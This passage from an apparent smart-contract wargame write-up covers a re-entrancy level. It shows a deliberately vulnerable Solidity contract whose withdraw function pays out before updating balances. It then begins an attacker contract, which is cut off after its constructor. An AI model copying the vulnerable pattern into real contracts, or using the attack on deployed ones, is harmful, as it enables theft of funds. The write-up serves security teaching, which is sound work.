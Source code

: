 ### Level 10. Re-entrancy

**Goal**: `player` has to steal all of the contract's funds.

Things that might help:

- Untrusted contracts can execute code where you least expect it.
- Fallback methods
- Throw/revert bubbling
- Sometimes the best way to attack a contract is with another contract.

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {

  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) { // <==
      (bool result,) = msg.sender.call{value:_amount}(""); // <==
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount; // <==
    }
  }

  receive() external payable {}
}
```

We're going to attack `Reentrance` with our written contract `ReentrancyAttack`. Deploy it with target contract (`Reentrance`) address:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentrancyAttack {
    address public owner;
    IReentrance targetContract;
    uint targetValue = 1000100000000000;

    constructor(address _targetAddr) {
        targetContract = IReentrance(_targetAddr);
        owner = msg.sender;
    }
```